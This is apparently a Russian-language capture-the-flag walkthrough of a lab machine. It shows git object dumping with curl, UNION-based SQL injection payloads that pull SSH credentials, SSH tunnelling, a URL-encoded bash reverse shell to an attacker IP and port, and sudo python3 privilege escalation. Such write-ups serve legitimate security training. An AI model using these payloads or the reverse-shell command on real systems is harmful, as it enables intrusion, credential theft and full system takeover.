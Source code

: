 >[!tip]- Nmap
>PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 57:b1:f5:64:28:98:91:51:6d:70:76:6e:a5:52:43:5d (RSA)
|   256 cc:64:fd:7c:d8:5e:48:8a:28:98:91:b9:e4:1e:6d:a8 (ECDSA)
|_  256 9e:77:08:a4:52:9f:33:8d:96:19:ba:75:71:27:bd:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: LightHill V2
| http-git: 
|   192.168.1.83:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: i changed login.php file for more secure 
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 00:0C:29:FF:6B:E0 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

После сканирования видим php сайт с открытым .git (ознакомление [Простой способ взлома сайта для получения его Git-данных (nuancesprog.ru)](https://nuancesprog.ru/p/9294/?ysclid=m1yoyy3rkt850260749))
## Изучим .git/logs/HEAD.
Как видим было несколько изменений( ***можно взять интересующий нас хеш прямо отсюда***)
находим файл .git/refs/heads/master и получаем хеш  (0f1d821f48a9cf662f285457a5ce9af6b9feb2c4) ==0f является именем поддиректории находящийся в .git/objects==
1. в корне делаем ``get init`` для создания структуры .git
2. Создаем директорию ``mkdir ./git/objects/**0f** ``
3. С помощью curl забираем нужный файл с машины жертвы и отправляем в созданную директорию: 
``curl 192.168.72.135:80/.git/objects/0f/1d821f48a9cf662f285457a5ce9af6b9feb2c4 --output .git/objects/0f/1d821f48a9cf662f285457a5ce9af6b9feb2c4``
4. затем читаем файл:
``git cat-file -p 0f1d821f48a9cf662f285457a5ce9af6b9feb2c4``
![[Pasted image 20241007113806.png]]
Как видим в файле есть дерево, которое связанное с этим комитом. Можно его изучить используя предыдущие команды для каждого хеша (создаем папку с 2-мя первыми буквами хеша,загружаем файл с помощью curl, читаем его).
5. После изучения logs/HEAD мы видим что 
хеш (a4d900a8d85e8938d3601f3cef113ee293028e10) связывает нас с страницой авторизации с дефолтными кредами и мы также видим этот хеш в ранее изученом файле.
Изучим хеш (a4d900a8d85e8938d3601f3cef113ee293028e10) таким же способом как и раньше
![[Pasted image 20241007114519.png]]
6. Уже в это хеше пойдем по дереву 9d....
![[Pasted image 20241007114550.png]]
7. Изучим login.php так как там должны быть стандартные креды для входа
![[Pasted image 20241007114656.png]]
Заходим на сайт с помощью полученных данных
## Из строки URL видно что есть запросы к базе
![[Pasted image 20241007114759.png]]
Попытаемся ввести 0 или NULL и получаем пустую карточку.
Изучим количество столбцов в таблице с помощью запроса в URL строке:
``id=1' ORDER BY 5 -- -``
Перебирая (ORDER BY x -- -) узнаем что всего 6 строк. 
Узнаем где какая строка отображается на сайте:
``id=NULL' UNION ALL SELECT 1,2,3,4,5,6 -- -``
![[Pasted image 20241007115102.png]]
Теперь можно получить больше информации о самой таблице (с помощью запроса к стандартной БД ):
``id=NULL' UNION ALL SELECT 1,GROUP_CONCAT(schema_name()),3,4,5,6 FROM information_schema.schemata -- -``
schema_name ( возвращает имена системных схем и пользовательских схем)
information_schema.schemata (стандартная база данных). На выходе в строке "Full name" в конце будет указано название таблиц (darkhole_2)
Узнаем какие таблицы есть в полученной БД:
``id=NULL' UNION ALL SELECT 1,GROUP_CONCAT(table_name),3,4,5,6 FROM information_schema.tables WHERE table_schema='darkhole_2'-- - ``
Получаем информацию о наличие таблицы ssh. Узнаем какие столбцы есть в этой таблицы
``id=NULL' UNION ALL SELECT 1,GROUP_CONCAT(column_name),3,4,5,6 FROM information_schema.columns WHERE table_name='ssh'-- -``
В поле "Full name" увидим id,pass,user. Нам интересны последние два:
``id=NULL' UNION ALL SELECT 1,user,pass,4,5,6 FROM ssh-- -``
В поле 2 и 3 (Full name и Email) увидим логин и пароль для входа в ssh
## Заходим в ssh и получаем первый флаг юзера. 
Проводим энумерацию системы (более всего интересно где можем записывать информации и что исполнять от судо)
Загружаем linpeas в папку /tmp,выдаем права и запускаем
После работы linpeas видим что машина подвержена CVE 2021-4034 (PwnKit). После попытки запуска - результата не появилось. Обратимся к другой интересной записи linpeas,а именно cron jobs и задачу от пользователя losy
![[Pasted image 20241007121720.png]]
Изучим директорию и увидим код php, который может удаленно выполнять команды
![[Pasted image 20241007121827.png]]
запустим ssh заново  с туннелированием 9999 порта:
``ssh -L 9999:127.0.0.1:9999 jehad@192.168.72.135``
Затем мы можем посетить сайт 127.0.0.1:9999 и отправить запрос 
![[Pasted image 20241007122445.png]]
Забираем второй флаг
![[Pasted image 20241007122627.png]]
Получим reverse shell для пользователя losy
``nc -lvnp 8888``
в url строку вставляем ``%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%37%32%2e%31%33%32%2f%38%38%38%38%20%30%3e%26%31%27 ( закодированный bash -c 'bash -i >& /dev/tcp/192.168.72.132/8888 0>&1' )``
Получаем шелл и проводим энумерацию 
Читаем .bash-history и видим пароль losy:gang
Вводим ``sudo -l -S`` и видим что можем использовать /usr/bin/python3
![[Pasted image 20241007125444.png]]
заходим на gtfobins  и смотрим что можно сделать с python имея права sudo:
``python3 -c 'import os; os.system("/bin/sh")'``
вводим пароль от losy (gang) и получаем рут![[Pasted image 20241007125838.png]]
